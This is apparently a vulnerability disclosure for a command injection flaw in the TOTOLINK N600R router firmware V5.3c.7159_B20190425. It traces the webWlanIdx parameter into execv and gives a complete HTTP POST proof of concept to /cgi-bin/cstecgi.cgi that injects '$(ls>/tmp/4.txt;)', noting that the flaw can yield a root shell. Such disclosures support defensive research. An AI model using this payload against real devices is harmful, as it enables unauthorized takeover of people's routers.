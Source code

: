 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406182839474](img/image-20220406182839474.png)

The content obtained by the program through the webwlanidx parameter is passed to V5, and then the matching content is passed to V7 through the sprintf function, and then V7 is brought into the cstesystem function

![image-20220406182546918](img/image-20220406182546918.png)

At this time, corresponding to the parameter A1, the function assigns A1 to the array of V9, and finally executes the command through the execv function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 145
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.asp?timestamp=1647874864
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647874864:2
Connection: close

{
	"topicurl":"setting/setWebWlanIdx",
	"webWlanIdn":"0test$(ls>/tmp/4.txt;)"
}
```

The reproduction results are as follows:

![image-20220406182926306](img/image-20220406182926306.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
